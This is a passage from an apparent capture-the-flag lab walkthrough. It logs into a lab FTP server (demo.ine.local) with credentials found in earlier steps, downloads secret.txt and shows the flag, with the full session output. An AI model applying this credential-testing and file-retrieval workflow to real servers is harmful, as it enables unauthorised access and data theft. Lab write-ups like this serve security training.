 
### **Step 4: Verify Credentials Work**

**What We're Doing:** Testing that our found credentials actually provide FTP access

#### **Commands Used:**
```bash
# Test first credential manually
ftp demo.ine.local
# Username: sysadmin
# Password: 654321
```

#### **What Happened:**
```bash
Connected to demo.ine.local.
220 ProFTP 1.3.5a Server (AttackDefense-FTP) [::ffff:192.121.136.3]
Name (demo.ine.local:root): sysadmin
331 Password required for sysadmin
Password: 654321
230 User sysadmin logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||35858||)
150 Opening ASCII mode data connection for file list
-rw-r--r--    1 0        0              33 Nov 20  2018 secret.txt
226 Transfer complete
ftp> get secret.txt
local: secret.txt remote: secret.txt
229 Entering Extended Passive Mode (|||19938||)
150 Opening BINARY mode data connection for secret.txt (33 bytes)
226 Transfer complete
33 bytes received in 00:00 (74.25 KiB/s)
ftp> exit
221 Goodbye.
```

#### **🏆 Mission Success:**
- **FTP Access Confirmed** - credentials work perfectly
- **File Discovery** - found secret.txt file
- **File Download** - successfully retrieved target file
- **Clean Exit** - proper FTP session management

#### **Flag Retrieved:**
```bash
cat secret.txt
260ca9dd8a4577fc00b7bd5810298076
```

---

### **Step 5: Test All Found Credentials**
